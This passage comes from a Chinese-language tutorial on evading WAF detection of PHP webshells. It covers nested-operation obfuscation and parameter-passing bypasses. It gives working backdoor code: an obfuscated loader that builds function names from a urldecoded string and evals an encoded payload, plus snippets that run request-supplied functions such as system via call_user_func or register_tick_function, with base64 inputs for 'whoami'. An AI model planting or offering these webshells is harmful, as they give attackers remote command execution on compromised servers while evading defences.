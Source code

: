 ### 8.2 嵌套运算

其实嵌套运算在 WebShell 免杀中算是常客了，让我们来看一下一个 `phpinfo()` 的嵌套运算

```php
$O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};$OO0000=$O00OO0{7}.$O00OO0{13};$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};

eval($O00O0O("JE8wTzAwMD0iU0VCb1d4VGJ2SGhRTnFqeW5JUk1jbWxBS1lrWnVmVkpVQ2llYUxkc3J0Z3dGWER6cEdPUFdMY3NrZXpxUnJBVUtCU2hQREdZTUZOT25FYmp0d1pwYVZRZEh5Z0NJdnhUSmZYdW9pbWw3N3QvbFg5VEhyT0tWRlpTSGk4eE1pQVRIazVGcWh4b21UMG5sdTQ9IjtldmFsKCc/PicuJE8wME8wTygkTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwLCRPTzAwMDApLCRPTzBPMDAoJE8wTzAwMCwwLCRPTzAwMDApKSkpOw=="));
```

加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html)

## 9# 传参绕过

将恶意代码不写入文件，而是通过传参传入，所以这个比较难以被常规 WAF 所识别

### 9.1 Base64 传参

```php
$decrpt = $_REQUEST['a'];
$decrps = $_REQUEST['b'];
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
$arrt = explode("|", $decrps)[1];
$arrt = explode("|", base64_decode($arrt)); call_user_func($arrs[0],$arrt[0]);
```

传参内容：

```php
a=c3lzdGVt    //system 的 base64 加密
b=d2hvYW1p    //whoami 的 base64 加密
```

也可以尝试使用其他编码或者加密方式进行传参

### 9.2 函数构造传参

可以用一些定义函数的函数来进行传参绕过，比如使用 `register_tick_function()` 这个函数

```php
register_tick_function ( callable $function [, mixed $... ] ) : bool
```

例子如下：

```php
$f = $_REQUEST['f'];
declare(ticks=1);
register_tick_function ($f, $_REQUEST['aabyss']);
```
